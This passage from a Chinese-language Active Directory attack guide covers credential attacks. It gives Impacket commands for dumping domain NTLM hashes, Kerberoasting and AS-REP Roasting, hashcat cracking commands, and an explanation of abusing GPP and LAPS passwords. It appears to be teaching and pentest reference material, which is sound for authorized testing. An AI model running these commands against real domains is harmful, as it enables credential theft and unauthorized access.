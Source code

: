             ```
            # -just-dc-ntlm 仅转储 NTLM 哈希
            python3 secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>:<PASSWORD>@<DC_IP>
            ```
            
    - **离线破解 (Offline Cracking)**: 使用 `hashcat` 等工具破解获取的 NTLM 哈希。
        
        Bash
        
        ```
        # -m 1000 对应 NTLM 哈希
        hashcat -m 1000 ntlm_hashes.txt wordlist.txt
        ```
        
- **利用服务主体名称 (Exploiting Service Principal Names, SPNs)**：
    
    - **Kerberoasting**:
        - **基本原理 (Fundamentals)**: 任何经过身份验证的域用户都可以为配置了 SPN 的服务账户请求服务票据 (TGS)。该 TGS 的加密部分使用服务账户的 NTLM 哈希作为密钥。攻击者可以请求这些票据并进行离线暴力破解，以恢复服务账户的明文密码。
        - **执行 (Execution)**: 使用 Impacket 的 `GetUserSPNs.py`。
            
            Bash
            
            ```
            # 请求所有可用的服务票据
            python3 GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN>/<USER> -request
            # 使用 hashcat -m 13100 破解获取的 TGS 哈希
            hashcat -m 13100 spn_hashes.txt wordlist.txt
            ```
            
    - **AS-REP Roasting**:
        - **基本原理 (Fundamentals)**: 此攻击针对那些被设置为“不要求 Kerberos 预身份验证”的用户账户。对于这些账户，攻击者可以在不知道密码的情况下请求其认证数据 (AS-REP)，其中一部分数据使用用户的 NTLM 哈希加密，同样可以进行离线破解。
        - **执行 (Execution)**: 使用 Impacket 的 `GetNPUsers.py`。
            
            Bash
            
            ```
            python3 GetNPUsers.py -dc-ip <DC_IP> <DOMAIN>/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt
            ```
            
- **利用 LAPS 与 GPP (Exploiting LAPS and GPP)**：
    
    - **组策略首选项 (Group Policy Preferences, GPP)**: 一种已被弃用的旧方法。管理员密码曾被 AES 加密后存储在 SYSVOL 的一个 XML 文件中，但微软意外地公开了私钥，使得任何域用户都能读取并解密该密码。
    - **本地管理员密码解决方案 (LAPS)**:
        - **基本原理 (Fundamentals)**: 微软推出的安全替代方案。它为每台计算机生成一个唯一的、随机的本地管理员密码，并将其以明文形式存储在 AD 中该计算机对象的 `ms-mcs-AdmPwd` 属性下。
        - **枚举与利用 (Enumeration and Exploitation)**: 如果攻击者控制的账户被授予了读取该属性的权限，就可以使用 PowerShell 的 LAPS 模块查询并获取目标计算机的本地管理员密码。
            